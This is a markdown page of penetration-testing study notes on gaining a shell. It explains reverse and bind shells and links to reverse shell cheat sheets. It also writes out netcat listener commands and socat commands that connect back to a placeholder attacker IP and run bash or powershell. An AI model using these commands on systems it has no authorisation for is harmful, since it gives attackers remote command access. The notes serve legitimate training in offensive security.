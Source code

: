 # Privilege Escalation

## Shell  
- [Reverse Shell Cheat Sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- `/usr/share/webshells`: Pre-installed webshells on kali  

### Types of Shell
- Reverse shells are when the target is forced to execute code that connects back to your computer.
- Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.  

### Netcat  
*Reverse Shells*  
`nc -lvnp <port-number>`: starting a netcat listener  
`-l` is used to tell netcat that this will be a listener  
`-v` is used to request a verbose output  
`-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.  
`-p` indicates that the port specification will follow.  
Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener.   
<br>

*Blind Shells*  
`nc <target-ip> <chosen-port>`: make an outbound connection to connect a
netcat listener  

#### Netcat Shell Stabilization
*Technique 1: Python*  
<details><summary>details</summary></details>

*Technique 2: rlwrap*  
<details><summary>details</summary></details>

*Technique 3: Socat*  
<details><summary>details</summary></details>

### Socat
*Reverse Shells*  
`socat TCP-L:<port> -`:  this is taking two points (a listening port, and standard input) and connecting them together.  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`: On Windows command to connect back  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`: On Linux  

*Bind Shells*  
`socat TCP-L:<PORT> EXEC:"bash -li"`: On a Linux target  
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`: On a Windows target  
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`:  On an attacking machine  
